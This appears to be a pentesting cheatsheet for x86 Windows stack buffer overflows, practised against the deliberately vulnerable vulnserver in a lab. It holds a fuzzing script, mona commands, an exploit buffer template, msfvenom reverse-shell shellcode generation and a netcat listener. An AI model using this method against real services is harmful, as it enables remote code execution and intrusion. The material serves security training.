 # x86 Windows Bof network cheatsheet

## Prerequisites

- Windows VM
    - Immunity Debugger
    - PATH contains `C:\python27`
    - `C:\python27\Pycommands\mona.py`
- Linux VM
    - Kali, Parrot, custom build
- Both VMs need to contact each other
- A will to live

## Windows VM

1. Launch Immunity Debugger as Administrator
2. File > Open > `vulnserver.exe` 
3. Set it to **run <F9>**
4. Repeat after every crash

## Linux VM

Scan the victim IP

```Bash
nmap -p- <ip>
```

Connect to the port where the app listens on

```Bash
nc <ip> <port>
```

### Spiking

1. Look for commands that can take input like:
    - STATS <args>
    - TRUN <args>
    - ...
2. Create spike script for every command
```Bash
s_readline();
s_string("<cmd> ");
s_string_variable("A");
```
3. Spike it and keep an eye on Immunity Debugger
```Bash
generic_send_tcp <ip> <port> <spike script> 0 0
```
4. Note the command and potential arguments where the script crashes the app

## Fuzzing

1. On every crash, try higher increments in buffer size to see if you can overwrite EIP
2. Keep an eye on Immunity Debugger
```Python
#!/usr/bin/env python3
import sys, socket
from time import sleep

ip='<ip>'
port=<port>
buffersize_incr=100
buffer=b'A'*buffersize_incr

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.settimeout(5)         # 5 seconds
        s.connect((ip, port))   # Note the double ()
        s.send(b'<cmd> ./:/'+buffer)
        s.recv(1024)            # Important, otherwise it won't crash
        s.close()
        sleep(1)                # Don't forget to sleep, otherwise crash when sending to fast
        buffer=buffer+b'A'*buffersize_incr
    except:
        print('Crashed at {} bytes'.format(str(len(buffer))))
        sys.exit()
```

## Finding offset

1. Input the buffer size that also overwrites the EIP
```Bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <buffer size>
```
2. Put the output of `pattern_create.rb` in the buffer
```Python
...
buffer=b'<pattern>'
...
```
3. Take note of the **EIP** value in Immunity Debugger
4. Get the exact offset
```Bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <buffer size> -q <EIP>
```
5. Verify by using buffer `b'A'*<offset>+b'B'*4`
6. EIP should be **42424242**

## Bad chars

1. In Immunity Debugger:
    - `!mona config -set workingfolder c:\mona\%p`
    - `!mona bytearray -b "\x00"`
2. Use below code to generate string of bad chars that is identical to bytearray
```Python
#!/usr/bin/env python3
from __future__ import print_function
for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')
print()
```
3. Put the string of bad chars before the B's in your buffer:
```Python
badchars = "\x01\x02\x03\x04\x05...\xfb\xfc\xfd\xfe\xff"
buffer = b'A'*<offset>+b'B'*4+badchars
```
4. Crash the app with the badchars and compare with mona:
    - Copy ESP each time you crash it because it may change
    - `!mona compare -f C:\mona\<appname>\bytearray.bin -a <ESP>`
5. Generate new bytearray, exclude badchars and start over:
    - `!mona bytearray -b "\x00\x0a"`
    - Delete badchars from buffer
    - Crash app and copy ESP again
    - `!mona compare -f C:\mona\<appname>\bytearray.bin -a <ESP>`

## Find right module

1. Find module without protections (False):
    - `!mona modules`
    - Take note of the module name (e.g. essfunc.dll)
2. Find **JMP ESP**
    - `!mona jmp -r esp -cpb "<badchars"`
    - OR
    - `!mona find -s "\xff\xe4" -m <module>`
3. Take note of **ALL** the return addresses for all JMP ESP pointers
4. `buffer=b"A"*<offset>+b"<JMP ESP return address>"`
    - 0x625011AF => \xaf\x11\x50\62
5. In Immunity Debugger: set breakpoint on the JMP ESP return address (Go to address is disassembler: <JMP ESP> and press F2)
6. Crash the app again
7. EIP should now have the JMP ESP return address
8. If not, try again with other JMP ESP return addresses

## Shellcode

```Bash
msfvenom -l payload
msfvenom \
    -p <payload> \
    LHOST=<attacker ip> \
    LPORT=<attacker port> \
    EXITFUNC=thread \
    -f c \
    -a x86 \
    -b "<bad chars>"
```

**NOTE:** If an encoder was used (more than likely if bad chars are present, remember to prepend at least 16 NOPs (\x90) to the payload.)

```Python
#!/usr/bin/env python3
prefix = b""
offset = <offset>
overflow = b"A"*offset
returnaddr = b"<JMP ESP addr>"
padding = b"" # NOPs (e.g. \x90\x90\x90)
payload = b"<msfvenom output>"
postfix = b""
buffer = prefix + overflow + returnaddr + padding + payload + postfix
...
```

```Bash
sudo ufw disable
nc -lvnp <attacker port>
```

Finally, crash the app again and get shell :)

## Resources

- https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst
- https://www.youtube.com/watch?v=qSnPayW6F7U&list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G
- https://tryhackme.com/room/bufferoverflowprep
- https://medium.com/@Z3R0th/a-simple-buffer-overflow-using-vulnserver-86b011eb673b


